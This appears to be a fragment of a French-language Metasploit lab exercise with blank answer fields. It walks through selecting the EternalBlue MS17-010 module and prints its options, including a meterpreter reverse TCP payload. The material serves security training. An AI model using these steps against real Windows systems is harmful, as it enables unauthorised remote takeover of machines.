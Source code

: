 ```console
Réponse : 
```

Sélectionner l'attaque :
```
msf6 > use /chemin/vers/lexploit/eternalblue
```

* Afficher les options et définissez la valeur pour l'option nécessaire. 
* Quel est le nom de cette propriété ?
```
msf6 > exploit(windows/smb/ms17_010_eternalblue) > show options
```

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.30.2.112     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

```console
Réponse : 
```

Pour mettre à jour une propriété :
```
set _OPTION_ _VALUE_
```
